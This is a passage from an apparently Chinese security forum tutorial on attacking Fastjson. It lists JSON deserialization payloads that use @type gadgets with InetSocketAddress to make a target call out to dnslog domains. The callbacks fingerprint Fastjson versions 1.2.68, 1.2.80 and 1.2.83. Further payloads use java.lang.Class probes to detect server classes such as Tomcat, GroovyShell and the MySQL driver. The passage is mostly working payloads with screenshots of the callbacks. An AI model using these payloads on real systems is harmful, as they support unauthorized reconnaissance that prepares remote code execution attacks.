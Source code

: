### 2.4.3 v1.2.68

`payload32`：

```json
[{"@type": "java.lang.AutoCloseable","@type": "java.io.ByteArrayOutputStream"},{"@type": "java.io.ByteArrayOutputStream"},{"@type": "java.net.InetSocketAddress"{"address":,"val": "mwhajokbdd.dgrh3.cn"}}]
```

![](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-59125ea394c416b02d0af8aea10567a69d77a4a1.png)  
![](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-4d8651d2c7d2f14eb3353a93223e99d0ce872c9e.png)

### 2.4.4 v1.2.80与v1.2.83

需要准备两个`dnslog`地址，我这里`yakit`上开一个`dnslog.cn`开一个。  
`payload33`：

```json
[{"@type": "java.lang.Exception","@type": "com.alibaba.fastjson.JSONException","x": {"@type": "java.net.InetSocketAddress"{"address":,"val": "xfjdbd.dnslog.cn"}}},{"@type": "java.lang.Exception","@type": "com.alibaba.fastjson.JSONException","message": {"@type": "java.net.InetSocketAddress"{"address":,"val": "uawcowbohf.dgrh3.cn"}}}]
```

如果第一个收到响应而第二个没有收到，说明版本为`1.2.80`：  
![](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-4b3d4594a93203df8b676b8e3581611e91a478d5.png)  
![](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-3dc8712e7fdbbe0136f976026c7aae016d6ea58f.png)  
如果两个都收到了，说明版本是`1.2.83`：  
![](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-2308298fed1af99afe79dc3586697ddf4191ba44.png)  
![](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-ef77a111e0a2aa4ca8590994f9f631e3783415d8.png)  
![](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-b5bd15c5e7132d43dddd3c076e485a43ccec5bd1.png)

三、探测服务器环境
=========

3.1 空值判断法
---------

待探测列表如下：

```php
org.springframework.web.bind.annotation.RequestMapping
org.apache.catalina.startup.Tomcat
groovy.lang.GroovyShell
com.mysql.jdbc.Driver
java.net.http.HttpClient
```

`payload34`：

```json
{"z": {"@type": "java.lang.Class","val": "org.springframework.web.bind.annotation.RequestMapping"}}
```

